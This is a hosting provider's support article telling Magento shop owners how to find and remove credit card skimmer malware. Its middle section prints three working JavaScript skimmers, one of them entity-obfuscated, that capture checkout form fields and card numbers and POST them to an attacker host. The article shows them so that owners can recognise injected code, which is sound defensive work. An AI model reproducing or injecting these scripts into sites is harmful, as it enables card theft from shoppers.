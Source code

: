 ```yaml
---
myst:
  html_meta:
    description: "Learn how to fix the malicious Credit Card Hijack in Magento and protect your customers' financial data. "
    title: How to fix malicious Javascript Credit Card Hijacks? | Hypernode
redirect_from:
  - /en/best-practices/security/how-to-fix-malicious-javascript-credit-card-hijack/
---
```


<!-- source: https://support.hypernode.com/en/best-practices/security/how-to-fix-malicious-javascript-credit-card-hijack/ -->

# How to Fix Malicious Javascript Credit Card Hijack

The hack *Credit card Hijack* is malicious code in Magento that allows hackers to intercept financial data, such as credit card credentials. This article further explains what this security breach means, what the consequences are and how you can fix it.

*We recommend checking your site with*[*Magereport.com*](http://magereport.com/)*for other vulnerabilities.*

## What Is Credit Card Hijack?

The Credit Card Hijack is the collective name of multiple credit card skimmers which may be injected in Magento and allows hackers to capture unencrypted credit card details (like credentials). Known names are the **MagentoCore** skimmer and the **MageCart** skimmer.

This check indicates whether your shop is injected with malware. However, it is not possible for MageReport to check which malware infected your shop.

With this relatively new way of hacking, malware is added in the browser of your websites’ visitors. This malware intercepts the credit card credentials the moment your customer types them in their browser. At this point the credentials aren’t encrypted yet.

In 2015 we analyzed the malware and found out that a staggering amount of 3500 Magento shops are part of a zombie network that interfere credit card credentials, and send this data to so called command&control servers. (Command&control servers are a network of servers where hackers collect this sort of data). This was the first time we encountered an automated credit card fraud on this scale. It’s obvious hackers have massively improved in becoming more professional in automating large-scale credit card fraud.

[Read more about Credit card Hijack](https://www.byte.nl/blog/widespread-credit-card-hijacking-discovered)

We suspect this leak has been made possible due to unpatched Magento shops. So if you haven’t completely patched your Magento shop yet, make sure you do. Use Magereport.com to check if there are any patches not yet installed.

## What Are the Consequences?

Credit Card Hijack allows hackers to intercept your customers financial data. With this information they can commit global credit card fraud, causing a lot of financial damage.

The fraud can be traced back to May 12th 2015, which implies the malpractice went unnoticed for months and is still active.

## How Do I Fix It?

*Fixing this breach is not an easy task. If you don’t have a lot of knowledge of Magento’s security, we recommend you hire an Magento developer or specialist experienced in Magento security.*

### Apply All Available Magento Patches

Scan your shop with [Magereport.com](http://magereport.com/) to find out which patches have been and have not been installed yet. When a patch isn’t installed, install it with the instructions given.

### Review and Remove

Review all admin users in your system via Magento’s backend (navigate to system>Permissions>Roles). Remove any accounts which you are not actively using and set strong passwords for all admin users you do use.

### Remove Unknown Scripts (PHP & Javascript)

Search your shop for scripts similar to the ones below and remove them. Searching and removing can be done via Magento’s backend. Once logged in to your backend (screenshots below):

1. Navigate to ‘System’ -> Configuration
   ![](_res/_EC5-TnORl1F5LROwDSHdbtXWyqhY6zx7A.png)
1. Go to ‘Design’ under ‘General’
   ![](_res/OYuuBvfAcJuTp9mnQ5m0uHdmap9USRS9nw.png)
1. Scroll down and open HTML Head to check ‘Miscellaneous Scripts’
   ![](_res/RSWx-oakxkntqQ5Mwws3vH6n_vSonTqKXg.png)
1. Scroll down and open Footer to check Miscellaneous HTML
   ![](_res/RUyelZfnnB8vcjKWctD9LYMDicwjrgdaQg.png)

**If Miscellaneous scripts and Miscellaneous HTML are empty, you’re most likely safe. If not, check if they contain the scripts below.**

The script below is an example of a minified version of the [scraper Javascript](https://blog.sucuri.net/2015/06/magento-platform-targeted-by-credit-card-scrapers.html).

```javascript
function jj(e){var t="; "+document.cookie,o=t.split("; "+e+"=");return 2==o.length?o.pop().split(";").shift():void 0}jj("SESSIID")||(document.cookie="SESSIID="+(new Date).getTime()),jQuery(function(e){e("button").on("click",function(){var t="",o="post",n=window.location;if(new RegExp("onepage|checkout").test(n)){for(var c=document.querySelectorAll("input, select, textarea, checkbox"),i=0;i&lt;c.length;i++)if(c[i].value.length&gt;0){var a=c[i].name;""==a&amp;&amp;(a=i),t+=a+"="+c[i].value+"&amp;"}if(t){var l=new RegExp("[0-9]{13,16}"),u=new XMLHttpRequest;u.open(o,e("&lt;div /&gt;").html("&amp;#104;&amp;#116;&amp;#116;&amp;#112;&amp;#115;&amp;#58;&amp;#47;&amp;#47;&amp;#98;&amp;#97;&amp;#100;&amp;#46;&amp;#103;&amp;#117;&amp;#121;&amp;#47;&amp;#106;&amp;#113;&amp;#117;&amp;#101;&amp;#114;&amp;#121;&amp;#46;&amp;#112;&amp;#104;&amp;#112; ").text(),!0),u.setRequestHeader("Content-type","application/x-www-form-urlencoded"),u.send(t+"&amp;asd="+(l.test(t.replace(/s/g,""))?1:0)+"&amp;utmp="+n+"&amp;cookie="+jj("SESSIID")),console.clear()}}})});
```

The script below is an example of Credit Card Hijack’s malicious code. It installs the functions ‘send’ and ‘clk’, which allows hackers to collect the names and content of every common form input element, when your customer clicks a button or submits a form.

```javascript
var snd =null;
window.onload = function () {
 if((new RegExp('onepage')).test(window.location)) {
 send();

 }
};

function clk() {
 var inp=document.querySelectorAll("input, select, textarea, checkbox");
 for (var i=0;i&lt;inp.length;i++){
 if(inp[i].value.length&gt;0) {
 var nme=inp[i].name;
 if(nme=='') { nme=i; }
 snd+=inp[i].name+'='+inp[i].value+'&amp;';
 }
 }

}

function send() {
var btn=document.querySelectorAll("a[href*='javascript:void(0)'],button, input, submit, .btn, .button");
 for (var i=0;i&lt;btn.length;i++){
 var b=btn[i];
 if(b.type!='text' &amp;&amp; b.type!='select' &amp;&amp; b.type!='checkbox' &amp;&amp; b.type!='password' &amp;&amp; b.type!='radio') {
 if(b.addEventListener) {
 b.addEventListener("click", clk, false);
 }else {
 b.attachEvent('onclick', clk);
 }
 }
 }

 var frm=document.querySelectorAll("form");
 for (var i=0;i&lt;frm.length;i++){
 if(frm[i].addEventListener) {
 frm[i].addEventListener("submit", clk, false);
 }else {
 frm[i].attachEvent('onsubmit', clk);
 }
 }

 if(snd!=null) {
 console.clear();
 var cc = new RegExp("[0-9]{13,16}");
 var asd="0";
 if(cc.test(snd)){
 asd="1" ;
 }
var http = new XMLHttpRequest();
http.open("POST","https://bad.guy/jquery.php",true);
http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
http.send("data="+snd+"&amp;asd="+asd+"&amp;id_id=ano.nym");
console.clear();
 }
 snd=null;
 setTimeout('send()', 150);
}
```

The script below was found during the research done by Hypernode. It covers the same functionality as the script above, but is harder to spot because it’s included in a minimised form. In this script Jquery is used to add unnamed click event-handler to every button on the page. If someone clicks the button, the function is triggered and allowed to collect al input data. It checks for credit card numbers and this information is sent off to their data collection server.

```javascript
 function jj(e) {
 var t = "; " + document.cookie
 , o = t.split("; " + e + "=");
 return 2 == o.length ? o.pop().split(";").shift() : void 0
 }
 jj("SESSIID") || (document.cookie = "SESSIID=" + (new Date).getTime())
 , jQuery(function (e) {
 e("button").on("click", function () {
 var t = ""
 , o = "post"
 , n = window.location;
 if (new RegExp("onepage|checkout").test(n)) {
 for (var c = document.querySelectorAll("input, select, textarea, checkbox"), i = 0; i &lt; c.length; i++)
 if (c[i].value.length &gt; 0) {
 var a = c[i].name;
 "" == a &amp;&amp; (a = i)
 , t += a + "=" + c[i].value + "&amp;"
 }
 if (t) {
 var l = new RegExp("[0-9]{13,16}")
 , u = new XMLHttpRequest;
 u.open(o, e("&lt;div /&gt;").html("&amp;#104;&amp;#116;&amp;#116;&amp;#112;&amp;#115;&amp;#58;&amp;#47;&amp;#47;&amp;#98;&amp;#97;&amp;#100;&amp;#46;&amp;#103;&amp;#117;&amp;#121;&amp;#47;&amp;#106;&amp;#113;&amp;#117;&amp;#101;&amp;#114;&amp;#121;&amp;#46;&amp;#112;&amp;#104;&amp;#112; ").text(), !0)
 , u.setRequestHeader("Content-type", "application/x-www-form-urlencoded")
 , u.send(t + "&amp;asd=" + (l.test(t.replace(/s/g, "")) ? 1 : 0) + "&amp;utmp=" + n + "&amp;cookie=" + jj("SESSIID"))
 , console.clear()
 }
 }
 })
 });
```

## Recover Your Shop

Since Credit Card Hijack is an ongoing credit card fraud dating from May 2015, it’s difficult to pinpoint how exactly the hackers got in. We assume it’s due to a combination of various know Magento leaks. It’s likely hackers used these security vulnerablities to set up this credit card fraud.

We recommend you ‘clean’ your shop following the steps written in the article [Recover a Hacked Magento Shop](../../best-practices/security/how-to-recover-a-hacked-magento-shop.md) after installing all Magento patches, deleting inactive Magento admins and removing malicious code.

## Need Help?

Magento is no easy open source CMS. Although we’re very skilled in hosting Magento shops, making them fast and keeping conversion high, we’re no Magento developers. Luckily, we know a lot of agencies that do know a lot about how Magento works. If you need help, don’t hesitate to [contact one of these agencies](https://www.magereport.com/page/support).
